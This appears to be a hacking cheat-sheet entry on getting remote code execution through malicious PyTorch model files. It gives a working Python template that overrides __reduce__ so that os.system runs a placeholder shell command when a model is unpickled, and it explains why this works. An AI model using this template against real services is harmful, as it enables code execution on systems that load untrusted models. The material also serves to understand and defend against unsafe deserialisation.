 # Data models (pytorch, pickle)

# Overview
If a model is parsed through a pytorch script, then one might be able to create a malicious model which can lead to RCE.

## Requirements
- The vulnerable script loads the model provided by the end-user

# Exploitation
```py
import torch
import torch.nn as nn
import os

class YourModel(nn.Module):
    def __init__(self):
        super(YourModel, self).__init__()
        self.dense = nn.Linear(10, 1)
    
    def forward(self, file):
        return self.dense(file)
   
    def __reduce__(self):
        cmd = "SHELL CODE HERE"
        return os.system, (cmd,)


model = YourModel()
torch.save(model, "file.pth")
```
By overwriting the `__reduce__` method, we can inject shell code and it will be executed whenever the vulnerable
script will try to load the module.

## Longer explanation
The `__reduce__` method returns either a string or a tuple which tells the script how to reconstruct the object
when unpickling.        
Usually, the tuple consists of:
- Callable (name of the class, function). In this case it's the `os.system` function.
- Arguments to be passed to the callable. Shell code in this case.

When the model is being parsed, the parsers will execute the callable with the arguments provided.